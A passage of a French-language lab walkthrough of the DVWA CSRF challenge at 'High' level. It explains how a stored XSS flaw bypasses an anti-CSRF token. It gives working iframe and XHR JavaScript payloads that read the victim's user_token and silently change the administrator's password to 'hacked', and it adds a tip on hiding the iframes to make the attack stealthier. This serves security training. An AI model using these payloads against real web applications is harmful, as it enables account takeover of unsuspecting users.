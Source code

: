 # Niveau "High"

L’analyse du formulaire indique la présence d’un champ caché nommé "user\_token" (il s'agit d'un jeton anti-CSRF). La valeur de ce champ est régénérée pour chaque requête :

![](../../../../.gitbook/assets/0c0892194f080f693dd38eeb63b57a68.png)

La requête effectuée lors du changement du mot de passe est de type **`GET`** :

![](../../../../.gitbook/assets/0ac49605cff888b7999e10835c367deb.png)

Les premiers tests à faire sont sans doute de vérifier la bonne implémentation du jeton. Que se passe t'il en cas de champ vide ou si le champ n'est pas présent ? Ici l'implémentation semble correcte et le jeton est donc obligatoire :

![](../../../../.gitbook/assets/3e8676642a89f875399827af3216b0c4.png)



Une faille XSS permet de contourner une protection basée sur un jeton anti-CSRF (qu'il soit per-request ou per-session). Cela se fait en deux étapes :

* Une première requête va permettre de récupérer un jeton CSRF présent sur la page du challenge
* Une seconde requête, comprenant le jeton fraîchement récupéré, va modifier le mot de passe de la victime

****

**Exploitation via des iframes**

Nous affichons une première `<iframe>` qui va afficher la page du challenge afin de récupérer le jeton. La mécanique de récupération se fait grâce à la méthode `readFrame1()` :

```markup
<iframe src="http://192.168.56.203:8080/vulnerabilities/csrf" onload="readFrame1()" id="frame1"></iframe>
```

Voici la fonction `readFrame1()` (hébergée dans un fichier nommé "csrf.js" sur un serveur malicieux) :

{% code title="csrf.js" %}
```javascript
function readFrame() {
  var token='&user_token=' + document.getElementById("frame1").contentDocument.getElementsByName("user_token")[0].value;
  var link = "http://192.168.56.203:8080/vulnerabilities/csrf?password_new=hacked&password_conf=hacked&Change=Change"+token;
  document.getElementById("frame2").src=link;
}
```
{% endcode %}

La variable `token` va contenir la chaîne suivante : `"&user_token=jeton_csrf_récupérée"`. Nous allons ensuite assigner à une seconde `<iframe>` une URL représentant la requête **`GET`** effectuant le changement de mot de passe.

Cette `<iframe>` sera appelée de cette façon :

```markup
<iframe id="frame2"></iframe>
```

Ci-dessous la payload ainsi que son affichage lors de l'exécution. Bien penser à injecter la payload en mode "Low" mais de repasser en mode "High" pour son exploitation :

![](<../../../../.gitbook/assets/3b6e8a0ec33f5961bef8be1b5f820505 (1).png>)

{% hint style="info" %}
Afin de rendre l'attaque plus discrète, il est possible de ne pas afficher les `<iframe>` grâce au style CSS `style="display:none"`
{% endhint %}

Une fois que l'administrateur visitera la page du challenge XSS, son mot de passe sera changé :

![](../../../../.gitbook/assets/1fb2b3663d21dad270b6c81e9e61e79c.png)

**Exploitation via des requêtes XHR**

Un peu plus moderne, il est possible d'effectuer la même attaque en utilisant deux requêtes **`XHR`**. La première va permettre de récupérer le jeton :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
        var token = xhr.response.getElementsByName('user_token')[0].value;
        
        // Exécuter Requête 2, changement de mot de passe
};

xhr.send();
```

Et la seconde, d'effectuer le changement de mot de passe une fois la première requête exécutée (et le jeton récupéré) :

> ```javascript
>    // Requête 2
>    var xhr2 = new XMLHttpRequest();
>    xhr2.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + token, true);
>    xhr2.send();
> ```

La mise en place de la payload s'effectue toujours en se servant de la vulnérabilité XSS en niveau "Low" :

![](../../../../.gitbook/assets/7cf8487e2619f973ab30e38f5ea8f209.png)

Lorsque la victime exécutera la payload XSS cela va déclencher l'attaque CSRF (repasser en "High") :

![](../../../../.gitbook/assets/8016744e58ba30e8ff427294598eacfc.png)

Le mot de passe de l'administrateur a bien été changé suite à sa visite (du challenge XSS) :

![](../../../../.gitbook/assets/94ceb456695bfa0da35e85c676d73400.png)
